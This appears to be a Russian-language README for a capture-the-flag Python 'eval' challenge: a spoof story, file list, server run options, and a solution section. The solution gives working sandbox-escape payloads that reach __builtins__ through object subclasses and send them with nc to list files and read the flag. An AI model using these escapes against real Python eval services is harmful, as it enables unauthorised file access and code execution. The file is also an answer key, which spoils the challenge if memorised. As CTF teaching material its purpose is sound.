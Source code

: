 Python eval
===========
**eval**
> К сожалению, кто-то сумел расшифровать тайное послание от Боба, и из-за этого он лишился работы и, как мы подозреваем, стал работать на тайную организацию, целью которой является - захват Мира.  
> У Боба есть одна небольшая слабость - любовь к python'у, говорят, он даже написал свой сервер(ссылка на исходник) чтобы удаленно писать код.  
> Говорят, на его компьютере лежат планы захвата Мира. Заполучите их!  

Файлы
-----
1. **eval.py** - Псевдо исходный код, который доступен участникам
2. **159fe327e79316e0f9169fa326fafbd1.txt** - Файл с флагом
3. **blacklist.txt** - Файл с запрещенными словами
4. **server.py** - Исходный код

Запуск
------
```
python3 server.py [-h] [-host HOST] [-p PORT] [-cpu CPU] [-t TIMEOUT]
```
host - Имя хоста, по умолчанию - socket.gethostname()  
port - Порт, по умолчанию 1337  
cpu - Количество одновременно запущенных процессов, по умолчанию 16  
timeout - Время жизни одного процесса, по умолчанию 3 секунды  

Решение
-------
1. Научиться получать доступ к \__builtins__  
    ```
    [x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__
    ```
2. Получить список файлов в папке  
    ```
    echo "[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').listdir()" | nc адрес порт
    ```
3. Прочесть флаг  
    ```
    echo "[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['open']('имя файла с флагом').read()" | nc адрес порт
    ```

---

[Описание проблемы](https://habrahabr.ru/post/221937/)  
[Источник](https://www.reddit.com/r/Python/comments/hftnp/ask_rpython_recovering_cleared_globals#thing_t1_c1v372r)  
[Еще полезная ссылочка](http://www.floyd.ch/?p=584)
